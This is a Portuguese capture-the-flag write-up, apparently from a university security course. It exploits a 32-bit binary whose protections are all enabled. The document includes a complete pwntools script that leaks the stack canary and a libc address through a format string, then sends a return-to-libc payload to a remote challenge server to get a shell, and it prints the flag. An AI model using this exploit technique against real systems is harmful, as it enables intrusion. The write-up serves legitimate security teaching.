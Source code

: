 Primeiro, utilizamos ```checksec``` no ```program```:

<img width="355" alt="Screenshot 2023-06-04 at 18 31 37" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/308938bf-4306-440d-a5d4-aebf50f638a0">

Verificamos que todas as proteções estão ativas.

Como foi indicado neste desafio "Não te esqueças, não há nada totalmente seguro." Então começamos por ultrapassar o máximo de caracteres permitidos, neste caso o máximo era 20.

<img width="899" alt="Screenshot 2023-06-04 at 18 37 11" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/e1992e5f-254b-4ca3-a424-e1c28c27d6cc">

Com isto verificamos que ```stack smashing detected```, indicando então que o ```program``` não verifica o número máximo de caracteres, esperando que o canary faça essa confirmação.

Após fazermos debugging ao ```program```, descobrimos algo que não é nada normal. A função ```fgets``` está a ler 100 caracteres, em vez dos supostos 20 caracteres. Então suspeitamos que existe alguma vulnerabildade em strings.

Confirmando a nossa suposição:

<img width="507" alt="Screenshot 2023-06-04 at 18 38 09" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/287af3d6-ad3c-424e-9edc-45d5f2242a19">

Como conseguimos imprimir a informação da stack, confirmamos que as nossas suspeitas estavam corretas.

Acabamos por descobrir depois de alguma pesquisa que este ataque é chamado de ```Return-to-libc``` (https://en.wikipedia.org/wiki/Return-to-libc_attack). Então criamos um script para esse ataque:

```python
from pwn import *

LOCAL = False

# Offset de referência da biblioteca
reference_lib_offset = 0xf7daa519 - 0xf7d89000
# Offset da função system na biblioteca
system_lib_offset = 0x48150
# Offset da string "/bin/sh" na biblioteca
sh_lib_offset = 0x1bd0f5


def send_message(p, message):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline(message)
    answer = p.recvline()
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")
    return answer

if LOCAL:
    pause()
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4002)

# Envia a primeira mensagem para obter o valor do canário e um valor de referência
first_message = send_message(p, b"%8$x-%11$x")

canary, reference_val = [int(val, 16) for val in first_message.split(b'-')]

# Calcula a base da biblioteca
lib_base = reference_val - reference_lib_offset
# Calcula os endereços da função system e da string "/bin/sh"
address_system = lib_base + system_lib_offset
address_sh = lib_base + sh_lib_offset

# Monta a segunda mensagem com os valores calculados
second_message = flat(b"A"*20, canary + 1, b"A"*8, address_system, b"A"*4, address_sh)

send_message(p, second_message)

send_message(p, b"A"*19)

p.interactive()
```

Após executarmos ```python3 script.py```, finalmente obtemos a flag: **flag{446742e444cf864d5d85fa643112492a}**

<img width="606" alt="Screenshot 2023-06-04 at 18 38 52" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/073ee602-1c6b-460b-9b86-3baf00c67159">

